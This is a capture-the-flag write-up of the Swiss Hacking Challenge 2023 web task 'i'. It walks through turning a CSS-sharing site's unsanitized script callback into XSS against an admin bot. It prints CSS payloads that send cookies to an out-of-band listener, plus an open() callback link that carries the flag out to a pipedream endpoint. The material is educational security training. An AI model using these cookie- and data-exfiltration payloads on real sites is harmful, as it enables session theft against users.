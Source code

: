 # Swiss Hacking challenge 2023 -  i - Web

## Description

"i" is another web challenge. You are given a platform, to upload your CSS style, and share it with the admin. Sounds like XSS!
)
You are also provided with [source code](https://github.com/eqqn/eqqn.github.io/blob/master/uploads/i.zip)

This time you can freely register a user. The source code indicates a bot, which opens the share link provided.

![free hats ](https://eqqn.github.io/images/shc_i_freehat.JPG)

### Initial attempt 

Intially I got lucky early and found good XSS primitive within a few minutes, but afterwards started getting stuck. 

``` css
body{
  background-image: url(hxxp://myburpsuite-endpointxyz.oastify.com);
  }
```

Css even allows to interpolate strings with ${variable}.

This was triggering out-of band requests from my browser, but not the bot. I could retrieve my own JWT with the string
``` css
background-image: url(hxxp://myburpsuite-endpointxyz.oastify.com/${document.cookie});
``` 

## Code analysis

After digging into the code, I noted the constraints imposed by sanitization of URLs and CSS body in `app.js`

``` python
    if request.method == "POST" and url:
        if "&&" in url or ";" in url or "|" in url or "(" in url or "{" in url:
            return "No free hats for you >:("
        if url.startswith("/share?"):
            subprocess.run(["node", "bot.js", url], shell=False)
```

safeview.js , which is the share page, has more restrictions. It didn't seem like my initial payload would get caught, 
and the sanitizations were not performed recursively

``` javascript
function escape(data) {
    var nopes = ["`", "+", "<", ">", "'", '"', "%"]
    var x = data
    nopes.forEach(noperino => {
        x = x.replaceAll(noperino, '');
    });
    x = x.replaceAll(/script/ig, '');
    x = x.replaceAll(/iframe/ig, '');
    return x
}
```

## the interesting bit 

I noticed additional argument in the share URL - a callback.
``` javascript
var data = document.createElement('script');
src = '/get_style?share_id=' + shareId
if (callback) {
    var src = '/get_style?share_id=' + shareId + "&callback=" + escape(callback)
}
```

Digging deeper into what kind of callback this is 

``` python
    callback = request.args.get('callback', 'updateStyle')
    if share_id:
        style = db.getStyleByShareId(share_id)
    else:
        user = db.getUserbyId(token["id"])
        style = user["style"]

    data = '{funcname}(`{data}`)'.format(
        funcname=callback,
        data=style,
    )
```

The callback default argument is "updateStyle", which calls the function. However, we can specify arbitrary callback function,
and it will take the supplied data as input. 

By putting "fetch()" call in the callback and testing it in the browser, I noted it failed to get `body{background-image: url} `
So I cleaned it up to contain only URL. 

`fetch` is gonna get blocked by CORS, so we need another javascript function that takes arbitrary URL as argument and makes a call. 
After looking around for other XSS manuals, I found `open()`.

## solution

By including a simple URL as the CSS to send to admin, and triggering the callback, we can extract the flag

`hxxps://eo8tkgldaXXXX.m.pipedream.net/${flag.value}`

And send the share with the callback URL to the "admin" :

`/share?share_id=0718b98ab524698450e410e2e60618&callback=open`

![flag](https://eqqn.github.io/images/shc_i_callback.JPG)


### Summary 

The organizers did a great job at creating fun challenges. In the end I ranked 27/87 in the open category, 
and 56/178 in combined ranking, although I only invested myself mostly into web challenges, as I want to improve my code review skills. 
The long duration was generous, as there was also Insomnihack during the competition period. 


